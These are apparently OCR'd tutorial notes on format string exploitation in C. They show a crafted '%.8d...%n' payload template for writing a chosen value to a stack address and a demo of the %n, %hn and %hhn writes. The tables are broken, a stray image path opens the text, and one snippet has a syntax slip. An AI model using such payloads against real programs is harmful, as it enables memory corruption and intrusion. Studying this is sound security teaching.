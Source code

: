 |||
|-|-|
||`%n`|
||`%d%d%d%d%d`|
||`0xbffff304`|
|`ap`&#8625;||
|...|20byte|
|`ap`&#8625;|input|

### Modify Memory with Specific Value (Approach 1)
Question: how do you modify the data stored at address 0xbffff304 with value 0x66887799

#### Precision width modifiers

```c
printf("%.5d",10);//00010
printf("%5d"10);// ___10

```

|||
|-|-|
||`%.8d%.8d%.8d%.8d%.{0x66887799-36}d%n`|
||0xbffff304|

- target address is 4 bytes
- %.8d is 8 bytes x 4 = 32 bytes
- 36 total bytes

### modify memory with specific value (approach 2, much faster)

#### length modifiers for %n

```c
#include <stdio.h>
void main(){
    int a, b, c;
    a = b = c= 0x11223344;

    printf("12345%n\n",&a);
    printf("the value of a: 0x%x\n",a);//0x00000005
    printf("12345%hn\n",&b);
    printf("the value of b: 0x%x\n",b);//0x11220005
    printf("12345%hhn\n",&c);
    printf("the value of c: 0x%x\n",c);//0x11223305
}
```
